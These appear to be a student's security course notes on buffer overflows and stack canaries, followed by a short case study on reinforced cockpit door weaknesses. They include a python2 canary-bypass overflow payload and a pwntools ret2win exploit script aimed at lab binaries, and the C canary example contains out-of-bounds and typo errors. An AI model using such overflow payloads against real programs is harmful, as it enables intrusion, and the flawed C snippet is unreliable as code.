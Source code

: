 - Prevention: treat user input data as dangerous (assume arbitrary length up to infinite)

  - scanf specify length, use strncmp, strncat, strncpy

  - Stack canary - known values placed in a buffer and control data on the stack to prevent buffer overflows (could be easily bypassed by overwriting them with themselves - if known)

    - ```c
      char buf[13] = {0};
      buf[10] = '\xde';
      buf[11] = '\xad';
      buf[12] = '\xbe';
      buf[13] = '\xef';
      gets(bufs);
      assert(strncmp(buf+10, "\xde\xad\xbe\xef", 4) == 0) 
      ```

    - python2 -c "print 'A' * 10 + '\xde\xad\xbe\xef' + 'B' * 11 + '\x9f\x92\x04\x08'"

    - Canary check '\xde\xad\xbe\xef' (no need for little endian since it's not a location) starts at buffer (of length 13) index 10

    - 11 extra 'B' found by 12 - 1

      - 12 bytes from 3 saved registers of 4 bytes
      - One subtracteed since \xef already overflowed buffer of length 13

- Pwntools:

  - ```python
    import pwn
    p = pwn.process('./ret2win')
    offset = 21
    winAddr = 0x0804928d
    payload = 'A'.encode() * offset + pwn.p32(winAddr)
    p.sendline(payload)
    p.interactive()
    ```

  - python3 encodes differently to python2, adding extra bytes to output


# Tutorial: Case Study 3 - Doors

Reinforced cockpit doors

Notes:

- Door designed to resist penetration by small arms fire and grenade shrapnel, and to resist forcible intrusions by unauthorised persons
- Door can only be opened from the inside unless there is an emergency where the pilots don't respond - emergency code entered which automatically unlocks the doors after 30 seconds if the pilots don't cancel it
  - 30 seconds is a lot especially if there is an emergency - every second counts
- If the cockpit gets hijacked, there is no way to access it - terrorists have full control of the plane
- Door jammed - pilots stuck
